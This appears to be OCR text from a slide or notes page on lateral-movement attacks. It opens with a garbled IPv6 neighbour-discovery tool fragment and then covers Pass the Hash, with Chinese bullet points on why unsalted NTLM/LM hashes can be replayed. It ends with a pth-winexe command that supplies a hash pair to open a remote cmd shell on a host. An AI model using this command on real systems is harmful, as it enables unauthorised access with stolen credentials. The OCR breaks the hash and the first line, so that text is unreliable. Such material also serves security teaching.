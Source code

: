 - -M ndp //fe80::260d:afff:fe6e:f378/ //2001:db8::2:1/


## Pass the Hash (PTH)

###  密码破解耗费时间资源巨大

###  使用密文提交给服务器直接完成身份认证

###  NTLM/LM是没有加盐的静态HASH密文

###  企业中使用ghost等工具克隆安装系统

###  pth-winexe -U

### w7%aad3b435b51404eeaad3b435b51404ee:ed1bfaeb3063

### 716ab7fe2a11faf126d8 //1.1.1.1 cmd
